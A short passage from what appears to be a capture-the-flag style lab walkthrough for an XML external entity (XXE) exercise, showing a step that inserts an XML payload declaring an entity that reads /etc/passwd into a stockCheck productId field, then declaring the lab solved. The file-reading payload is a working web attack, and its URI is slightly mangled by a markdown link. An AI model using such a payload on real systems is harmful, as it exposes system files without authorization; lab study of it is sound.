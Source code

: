**Step3**

add the following payload

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "[file:///etc/passwd](file://etc/passwd)"> ]>

<stockCheck>
  <productId>&xxe;
  </productId>
</stockCheck>
```

<img src="images/image3.png" alt="third" width="500">


And the lab is solved.
